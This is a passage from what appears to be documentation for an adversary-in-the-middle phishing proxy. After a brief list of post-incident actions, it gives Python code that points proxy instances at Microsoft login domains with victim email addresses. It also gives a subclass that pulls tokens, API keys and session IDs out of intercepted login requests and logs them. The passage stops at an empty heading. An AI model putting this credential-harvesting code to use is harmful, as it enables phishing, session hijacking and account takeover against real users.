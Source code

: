 #### Long-term Actions (1-30 days)
1. **Security Assessment**: Review and improve security controls
2. **Training Update**: Enhance user security awareness training
3. **Monitoring Enhancement**: Improve detection capabilities
4. **Threat Intelligence**: Update threat models and IoCs

## Advanced Usage

### Custom Proxy Configurations

```python
# Custom target domains
proxy = AiTMProxy(
    target_domain="login.live.com",      # For personal Microsoft accounts
    proxy_port=8443,                     # Custom port
    victim_email="personal@outlook.com"
)

# Multiple domain support
domains = [
    "login.microsoftonline.com",
    "login.live.com", 
    "account.microsoft.com"
]

for i, domain in enumerate(domains):
    proxy = AiTMProxy(
        target_domain=domain,
        proxy_port=8080 + i,
        victim_email=f"victim{i}@company.com"
    )
```

### Custom Credential Extraction

```python
# Extend AiTMProxy for custom credential parsing
class CustomAiTMProxy(AiTMProxy):
    def _extract_credentials_from_post(self, content: str):
        super()._extract_credentials_from_post(content)
        
        # Custom field extraction
        custom_fields = ['custom_token', 'api_key', 'session_id']
        params = parse_qs(content)
        
        for field in custom_fields:
            if field in params:
                self.captured_data['credentials'][field] = params[field][0]
                self.log(f"[CAPTURE] Custom {field}: {params[field][0]}")
```

### Integration with External Tools
